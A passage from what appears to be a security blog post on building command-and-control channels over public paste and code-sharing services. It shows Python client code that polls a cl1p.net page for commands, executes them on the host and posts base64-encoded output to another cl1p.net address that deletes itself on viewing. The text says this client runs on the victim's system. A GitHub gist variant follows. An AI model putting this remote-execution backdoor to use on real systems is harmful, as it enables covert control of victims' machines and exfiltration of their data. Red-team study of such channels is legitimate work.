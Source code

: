 ```Python
        soup = BeautifulSoup(response.text, 'html.parser')
        textarea = soup.find('textarea', {'id': 'cl1pTextArea'})
        if textarea:
            content = textarea.get_text().strip()
            output = execute_system_command(content)[1]
            data = {
            'ttl': '0',
            'content': base64.b64encode(output.encode()).decode(),
            }
            response = requests.post('https://cl1p.net/'+RESPONSE_ID, data=data, verify=False)
        else:
            time.sleep(1)

```
On the client-side, it keeps monitoring the address where the command is stored. When the address contains a command, it executes it. After execution, it sends the command’s output to a different address where the server can retrieve it and similar to the server code, `ttl` is also set to `0` here to delete the content once viewed.

### Execution
Let's see it in action now:
![clip](/assets/img/posts/2025-02-23-c2-all-the-things/clip-1.png)
As you can see I tried to give it some commands and it executed them and sent me the results. In a real world scenario, `client.py` would be in victim's system and `server.py` in attacker's.

## Github
> "GitHub is a proprietary developer platform that allows developers to create, store, manage, and share their code." - Github

In the case of [github](https://github.com), one of the scenarios that can be implmeneted is to create a private/public gist storing the command in the first comment or in a file. Then the script can read it executing the command as well as creating a new comment to store its output there.

### Prerequisites
For this scenario to work we have to create a Personal Access Token(PAT) in github. Moreover the PAT should have permissions over gist:
![git](/assets/img/posts/2025-02-23-c2-all-the-things/git-2.png)
